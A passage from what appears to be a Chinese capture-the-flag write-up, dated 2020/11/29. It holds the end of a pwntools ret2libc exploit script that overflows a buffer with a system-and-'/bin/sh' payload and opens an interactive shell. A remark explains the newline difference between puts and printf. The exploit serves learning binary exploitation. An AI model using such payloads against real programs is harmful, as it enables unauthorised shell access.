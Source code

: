 ```python

    payload2 = flat(['a'*0x70, real_system_addr, 'b'*4, bin_sh_addr])
    r.sendline(payload2)

    r.interactive()


if __name__ == '__main__':
    main()

```

需要注意的一点就是，例1用puts输出，例2/例3用printf输出，而puts输出默认会有一个换行，在设置等待接收字符串时加个换行就可以了。  


2020/11/29  
